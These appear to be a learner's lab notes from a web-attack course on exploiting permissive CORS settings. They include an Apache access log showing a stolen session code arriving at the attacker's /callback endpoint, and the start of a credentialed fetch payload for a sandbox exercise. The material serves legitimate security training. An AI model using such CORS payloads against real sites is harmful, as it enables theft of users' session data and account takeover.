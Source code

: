 ```html
<body></body>
</html>
```
We've included a Fetch call with the JSON body in the query string. We are using _JSON.stringify()_ to convert the JSON response into a String, then calling the _encodeURIComponent()_ function to encode any characters that might cause the URL to be invalid.


Burpsuite Initial `cors2.html` GET request
![[Pasted image 20240814171844.png]]
`GET` request receiving the `CODE` and `SESSION COOKIE`
![[Pasted image 20240814171921.png]]
Information being sent to `tail /var/log/apache2/access.log`
![[Pasted image 20240814172015.png]]
Let's test the page by accessing it in our browser. Again, the page has no indication of what happened. Let's check our access.log for Apache.
```bash
┌──(root💀gobots)-[14Aug2024 21:10:45]-[/home/kali/SUT/OSWA/cors]
└─# tail /var/log/apache2/access.log
192.168.1.1 - - [14/Aug/2024:19:36:14 +0000] "GET / HTTP/1.1" 200 10956 "-" "-"
192.168.45.175 - - [14/Aug/2024:20:20:18 +0000] "GET /cors1.html HTTP/1.1" 200 560 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:20:23:38 +0000] "GET /cors1.html HTTP/1.1" 200 560 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:20:23:38 +0000] "GET /favicon.ico HTTP/1.1" 404 487 "http://127.0.0.1/cors1.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:21:02:51 +0000] "GET /cors1.html HTTP/1.1" 200 560 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:21:03:47 +0000] "GET /cors1.html HTTP/1.1" 200 560 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:21:10:32 +0000] "GET /cors2.html HTTP/1.1" 404 488 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
127.0.0.1 - - [14/Aug/2024:21:10:47 +0000] "GET /cors2.html HTTP/1.1" 200 628 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
192.168.45.175 - - [14/Aug/2024:21:10:48 +0000] "GET /callback?%7B%22code%22%3A%226d84973e-5995-4557-95ed-a179beb9b5a4%22%2C%22status%22%3A%22ok%22%7D HTTP/1.1" 404 493 "http://127.0.0.1/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36"
```
Excellent. Our CORS page sent a request to get the code on behalf of the victim user then sent the code to our Kali machine. While we played the role of the attacker and the victim, this example illustrates how to exploit permissive CORS settings to steal data from users. In real-world applications, attackers can exploit CORS to steal sensitive data, such as private messages or bank account numbers. They can also exploit CORS to perform actions as the user, such as transferring money or changing a password to completely compromise the victim's account.

##### Labs
![[Pasted image 20240814172527.png]]
`cors_exercise1.html` payload 
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
```
